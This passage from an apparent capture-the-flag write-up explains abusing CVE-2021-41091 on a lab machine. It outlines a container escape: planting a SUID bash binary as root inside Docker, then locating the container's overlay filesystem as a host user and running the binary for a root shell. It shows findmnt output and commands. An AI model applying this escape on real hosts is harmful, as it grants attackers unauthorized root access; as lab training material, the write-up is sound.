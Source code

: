 ### Abusing CVE-2021-41091

We can get more information about CVE-2021-41091 [here, by the person who discovered the bug](https://www.cyberark.com/resources/threat-research-blog/how-docker-made-me-more-capable-and-the-host-less-secure). This exploit takes advantage that user id's within docker containers and outside the docker containers are shared. So we can create a file with a user inside the docker container, and when accessing the file from outside the docker container, the user id will be retained. This characteristic is normal for linux, but what is not normal is a regular user being able to enter the docker container's filesystem.
This is ideal for our situation, where we control root from inside the container. The workflow will look something like this:

- As root within docker, create a `bash` binary with SUID binary set. Any user can run this as root, and get a root bash session.
- As marcus outside the container, find the container location in the file system
- As marcus, access the bash binary. Because this SUID binary was made with user ID 0, it will still be treated as such, meaning the system's root user.
- As marcus, execute the SUID binary and obtain a root shell escaped from the docker session
Using `findmnt` to locate docker filesystems
```
marcus@monitorstwo:~$ findmnt
TARGET                                SOURCE     FSTYPE     OPTIONS
/                                     /dev/sda2  ext4       rw,relatime
├─/sys                                sysfs      sysfs      rw,nosuid,nodev,noexec,relatime
│ ├─/sys/kernel/security              securityfs securityfs rw,nosuid,nodev,noexec,relatime

<...SNIP...>

├─/run                                tmpfs      tmpfs      rw,nosuid,nodev,noexec,relatime,size=402608k,mode=755
│ ├─/run/lock                         tmpfs      tmpfs      rw,nosuid,nodev,noexec,relatime,size=5120k
│ ├─/run/docker/netns/2a35f1c292bd    nsfs[net:[4026532597]]
│ │                                              nsfs       rw
│ ├─/run/user/1000                    tmpfs      tmpfs      rw,nosuid,nodev,relatime,size=402608k,mode=700,uid=1000,gid=1
│ └─/run/docker/netns/22acd79d4ced    nsfs[net:[4026532659]]
│                                                nsfs       rw
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7H
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4B
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
```
There are several docker files it looks like, and we want to know which is ours. To make it a little easier, I placed `test` in the base directory:
```
root@50bca5e748b0:/# touch test
root@50bca5e748b0:/# ls
bin   dev            etc   lib    media  opt   root  sbin  sys   tmp  var
boot  entrypoint.sh  home  lib64  mnt    proc  run   srv   test  usr
```
Now we can view it when we access the correct container:
```
marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
```